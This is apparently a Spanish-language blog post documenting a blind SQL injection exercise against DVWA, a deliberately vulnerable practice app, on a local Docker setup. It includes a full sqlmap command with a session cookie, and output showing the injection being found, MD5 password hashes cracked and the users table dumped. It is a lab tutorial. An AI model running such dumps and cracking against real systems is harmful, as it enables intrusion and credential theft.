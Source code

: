 ```yaml
---
title: DVWA 
date: 2025-04-2 17:00:00 +0200
categories: [hacking, sqli] 
tags: [dvwa, sqli, sqlmap]     # TAG names should always be lowercase

image:
    path: https://github.com/digininja/DVWA/blob/master/dvwa/images/logo.png?raw=true
    alt: DVWA
---
```


## DVWA 

>Damn Vulnerable Web Application (DVWA) es una aplicación web PHP/MariaDB extremadamente vulnerable. Su objetivo principal es ayudar a los profesionales de la seguridad a poner a prueba sus habilidades y herramientas en un entorno legal, ayudar a los desarrolladores web a comprender mejor los procesos de seguridad de aplicaciones web y ayudar tanto a estudiantes como a profesores a aprender sobre seguridad de aplicaciones web en un entorno de clase controlado.

Más info sobre DVWA en [Hacktools/#vulnerable-machines](../hacktools/#vulnerable-machines)
Ahora vamos a realizar un ejemplo de injección sql_blind con la herramienta **sqlmap**, para que todo sea automático he puesto el flag __--batch__
Para el ejercicio he montado el docker con el archivo docker del proyecto de DVWA. 

``` shell
pablo☠office sqlmap$ ./sqlmap.py --url "http://192.168.2.125:8090/vulnerabilities/sqli_blind?id=1&Submit=Submit"  --cookie="PHPSESSID=fl7f8c1lva3pup4adt7djg46q1;security=low" --data="id=1&Submit=Submit" -p id  --risk 3 --level 5 --dump --batch
```
La seguridad está en "low" y la cookie podemos copiarla del navegador. 
Al parecer el parámetro id supone una entrada no sanitizada y permite este tipo de inyección SQL que un adversario
puede utilizar para extraer los datos de la base de datos.
sqlmap incluye una opción que le permite identificar y crackear passwords en md5 e incluye su propio diccionario.

Aquí es cuando Sqlmap descubre que el parámetro id parece inyectable usando la técnica de __boolean-based blind__ 
``` shell
[21:49:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:49:58] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="User ID exists in the database.")
[21:49:59] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
```

El proceso continua e incluso se consiguen las passwords de los usuarios. 
``` shell
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[21:51:04] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/home/pablo/pentest/web/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[21:51:04] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[21:51:04] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[21:51:04] [INFO] starting 4 processes 
[21:51:07] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'                                                                                                                           
[21:51:09] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'                                                                                                                          
[21:51:13] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'                                                                                                                          
[21:51:14] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                                                                                                                         
Database: dvwa                                                                                                                                                                                                    
Table: users
[5 entries]
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2025-04-02 18:20:58 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2025-04-02 18:20:58 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2025-04-02 18:20:58 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2025-04-02 18:20:58 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2025-04-02 18:20:58 | 0            |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+

[21:51:20] [INFO] table 'dvwa.users' dumped to CSV file '/home/pablo/.local/share/sqlmap/output/192.168.2.125/dump/dvwa/users.csv'

```

Pues ya estaría. Te has pasado el ejercicio con un solo comando. Happy hacking!!!.